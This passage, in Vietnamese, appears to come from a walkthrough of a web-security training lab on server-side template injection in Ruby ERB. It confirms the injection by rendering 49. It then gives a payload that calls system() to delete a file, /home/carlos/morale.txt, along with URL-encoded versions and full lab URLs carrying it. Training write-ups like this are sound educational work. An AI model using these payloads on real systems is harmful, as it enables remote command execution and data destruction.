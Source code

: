    - Kết quả: server render ra số `49` → xác nhận SSTI.

     ![image-20250630235815683](./image/image-20250630235815683.png)

4. Thực thi mã để xóa file:

   - Trong Ruby, dùng hàm `system` để chạy lệnh hệ điều hành.

   - Payload:

     ```
     <%= system("rm /home/carlos/morale.txt") %>
     ```

   - URL-encode thành:

     ```
     <%25=+system(%22rm+/home/carlos/morale.txt%22)+%25>
     ```

   - Truy cập:

     ```
     https://YOUR-LAB-ID.web-security-academy.net/?message=<%25=+system(%22rm+/home/carlos/morale.txt%22)+%25>
     
     https://0a0b006f04c9baeb8018e4050061001a.web-security-academy.net/?message=%3C%=%20system(%22rm%20/home/carlos/morale.txt%22)%20%%3E
     ```
